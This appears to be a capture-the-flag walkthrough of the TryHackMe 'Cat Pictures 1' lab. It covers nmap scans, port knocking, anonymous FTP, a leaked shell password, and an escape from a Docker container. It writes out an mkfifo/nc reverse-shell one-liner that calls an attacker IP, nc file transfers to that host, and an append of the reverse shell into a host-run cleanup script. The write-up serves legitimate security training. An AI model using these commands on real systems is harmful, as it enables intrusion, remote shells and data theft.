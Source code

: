 ```yaml
---
title: Cat Pictures 1
published: 2023-07-11
description: ""
image: ./2.png
tags:
  - easy
  - thm
category: Walkthroughs
draft: false
---
```

Let's start with a nmap scan

```bash
nmap 10.10.34.107
```

![](./1.png)
we a see a web page in port 8080 and its running phpbb

![](./2.png)

after going through the website we found it is version 3.3.x and there is no know vulnerability for it.

the site has a single post 

POST ALL YOUR CAT PICTURES HERE
Knock knock! Magic numbers: 1111, 2222, 3333, 4444

The post gives us a hint to perform port knocking

https://www.bugcrowd.com/glossary/port-knocking/

To perform port knocking clone this git repo
https://github.com/grongor/knock

```bash
git clone https://github.com/grongor/knock

cd knock

./knock 10.10.34.107 1111 2222 3333 4444
```

![](./3.png)

Now lets scan for all open ports
```bash
sudo nmap -sS 10.10.34.107 -p- -v -T 4 
```

![](./4.png)


we can see that port 21 (ftp) is open. Now lets connect to the server through ftp.

![](./5.png)


anonymous login was turned on we found a note.txt

![](./6.png)



```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

now lets connect to port 4420

![](./7.png)

like it said cd command is not working and there is a file runme im /home/catlover which cannot be executed on this shell

![](./8.png)

now lets break out of this shell
looks like we have mkfifo and nc

![](./9.png)

let's search for a payload in revshells.com for this 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.54.133 9001 >/tmp/f
```

![](./10.png)

![](./11.png)


now lets try running the runme file

![](./12.png)


it requires a password to run it

let's copy the executable to our local machine using nc

Run a listener on the attacker machine

```bash
nc -l -p 1234 > runme
```

send the file from the target box

```bash
nc -w 3 10.17.54.133 1234 < runme
```

![](./13.png)


we got our executable to our machine. let's analyse it

```bash
strings runme
```

![](./14.png)

![](./15.png)

now let's copy the id_rsa to our machine and ssh to the server

![](./16.png)

looks like we are the root

![](./17.png)

we got the 1st flag and we are in a docker container

![](./18.png)

when we look into the mounted folders we are able to see a partition directly mounted from machine

![](./19.png)

there is abash script which clears the /tmp/folder

![](./20.png)

let's change the code of the "clean.sh" to the revshell we used earlier

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.54.133 9001 >/tmp/f" >> clean.sh
```

![](./21.png)

since there is no cronjobs running in this machine and the files I create in the tmp folder is not deleted. the clean.sh is running the host machine. so lets wait for the code to run

![](./22.png)

And here we go, we got the flag.